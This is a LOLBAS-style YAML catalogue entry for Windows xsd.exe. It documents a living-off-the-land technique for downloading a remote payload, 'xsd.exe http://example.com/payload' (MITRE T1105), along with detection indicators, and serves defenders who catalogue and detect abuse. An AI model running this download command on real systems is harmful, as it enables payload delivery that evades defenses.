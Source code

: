 ```yaml
---
Name: xsd.exe
Description: XML Schema Definition Tool included with the Windows Software Development Kit (SDK).
Author: Avihay Eldad
Created: 2024-04-09
Commands:
  - Command: xsd.exe http://example.com/payload
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in INetCache
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft SDKs\Windows\<version>\bin\NETFX <version> Tools\xsd.exe
Detection:
  - IOC: URL on a xsd.exe command line
  - IOC: xsd.exe making unexpected network connections or DNS requests
Acknowledgement:
  - Person: Avihay Eldad
    Handle: '@AvihayEldad'
---
```

